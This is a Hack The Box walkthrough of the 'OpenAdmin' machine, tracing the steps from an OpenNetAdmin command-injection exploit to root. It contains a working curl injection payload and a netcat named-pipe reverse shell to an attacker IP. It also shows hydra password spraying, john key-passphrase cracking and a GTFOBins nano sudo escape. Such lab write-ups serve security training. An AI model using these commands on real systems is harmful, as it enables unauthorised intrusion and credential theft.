- Machine Name: OpenAdmin
- Difficulty: Easy
- OS Type: Linux

### Summary:

- found /music via directory bruteforcing
- click on login button redirect us to /ona which is running opennetadmin application, found → https://www.exploit-db.com/exploits/47691, got initial access
- Enumerating system i found  /opt/ona/www/local/config/database_settings.inc.php, which contains database password, use  that to spray on local users, worked for jimmy, ssh as jimmy user
- continue enumerating found /var/www/internal, application analyzing source code found that it is first login using username and password from jimmy, and then dump the joanna’s private ssh keys, password is check using sha512 hash
- as we have write permissions to that file, i changed that code to match only plaintext password - `password` forward port to machine using ssh, access it locally and login got the joanna’s private ssh key
- it requires the passphrase to use the key, use john to crack the passphrase and login as joanna, running sudo -l we found that joanna can run /bin/nano /opt/priv as sudo, found GTFObins payload used that to get root shell

### Port Scanning - Service & Version Enumeration

```php
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCcVHOWV8MC41kgTdwiBIBmUrM8vGHUM2Q7+a0LCl9jfH3bIpmuWnzwev97wpc8pRHPuKfKm0c3iHGII+cKSsVgzVtJfQdQ0j/GyDcBQ9s1VGHiYIjbpX30eM2P2N5g2hy9ZWsF36WMoo5Fr+mPNycf6Mf0QOODMVqbmE3VVZE1VlX3pNW4ZkMIpDSUR89JhH+PHz/miZ1OhBdSoNWYJIuWyn8DWLCGBQ7THxxYOfN1bwhfYRCRTv46tiayuF2NNKWaDqDq/DXZxSYjwpSVelFV+vybL6nU0f28PzpQsmvPab4PtMUb0epaj4ZFcB1VVITVCdBsiu4SpZDdElxkuQJz
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHqbD5jGewKxd8heN452cfS5LS/VdUroTScThdV8IiZdTxgSaXN1Qga4audhlYIGSyDdTEL8x2tPAFPpvipRrLE=
|   256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBcV0sVI0yWfjKsl7++B9FGfOVeWAIWZ4YGEMROPxxk4
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Enumeration

### Port 80/HTTP

let’s start our enumeration from http port 80, i opened the url in firefox



Hmm, it comes with apache default page, let’s use gobuster to find hidden files or directories

```php
gobuster dir -u http://10.10.10.171/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
```



nice we found some directories, let’s check it one by one

first i’ll check for /music


clicking on **login** button it redirect us to /ona 


we found that opennetadmin application is running version 18.1.1, also as the machine name suggest looks like it is the initial attack vector



quick google search reveals https://www.exploit-db.com/exploits/47691 

analyzing exploit we found that it runs simple curl command with some argument let’s run it to see if it’s working or not

 

```php
curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";id;echo \"END\"&xajaxargs[]=ping" http://10.10.10.171/ona/ | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
```



let’s get the reverse shell using simple nc payload with named pipes

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.17 443 >/tmp/f` to pass this in curl without any issue i encoded this in URL format using https://www.urlencoder.org/

final payload:

rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.14.17%20443%20%3E%2Ftmp%2Ff

replace this command with id command and send curl request and hopefully we’ll get shell



upgrade to TTY shell using python one-liner → ***python3 -c 'import pty;pty.spawn("/bin/bash");’***

trying to run `sudo -l` we got error



i remeber this error, as while solving another HTB machine i got this same error but it resolved once we logged in from SSH or any standard shell

while enumerating host, i found internal directory in /var/www which only can be accessible by the jimmy user, or internal group member



let’s keep this information to our pocket and, continue our enumeration after gaining access on the system, i found database credentials in the → /opt/ona/www/local/config/database_settings.inc.php



i tried login using above creds in sql database and found only two users admin, guest



not useful, i’ll try bruteforcing this password on the user’s presents on the system

to list users with shell - `cat /etc/passwd | grep sh$`



using hydra for password spraying for ssh login

```php
hydra -L user.txt -P passwords.txt ssh://10.10.10.171
```



and found valid credentials, let’s login as jimmy using ssh

```php
ssh jimmy@10.10.10.171
```



still we don’t have user.txt, we can see that user is member of non default group internal, let’s check if user has ability to run any commands as sudo



sadly no, but we can see that the error that we’re facing in www-data shell is fixed now

if we remember we discovered the internal directory which can access by jimmy user or internal group

i found the bunch of php files inside the internal folder



reading the main.php file i found tha it is dumping joanna’s private ssh key 



but it requires the session, from index.php,  let’s check what does that file contains



it just authorizing user, so instead of cracking this password, as we’ve write permission to this file i just add the password as password



now we need to check on which port this website is running internally

```php
ss -tunlp
```



let’s use SSH to forward this port to our local machine

```php
ssh -L 9001:127.0.0.1:52846 kali@10.10.14.17 -N
```

and then access the website on port 9001, on your [localhost](http://localhost) - 127.0.0.1



login using → `jimmy:password` 



let’s save this to our machine change permissions using `chmod 600 id_rsa`  and try to login as joanna

```php
ssh -i id_rsa joanna@10.10.10.171
```



it requires the passphrase let’s try “ninja”, we got password like hint from the website 



but it’s not working, let’s crack the passphrase using john

```php
ssh2john id_rsa > ssh.hash
```

```php
john ssh.hash --wordlist=/usr/share/wordlists/rockyou.txt
```



bingo we got the passphrase, login using ssh



running `sudo -l` reveals that we can run `/bin/nano /opt/priv` command using sudo as root without password



searching for exploit in GTFOBins i found following payload

- sudo /bin/nano /opt/priv
- CTRL + R, CTRL + X
- `reset;  bash 1>&0 2>&0`



enter to get root shhell

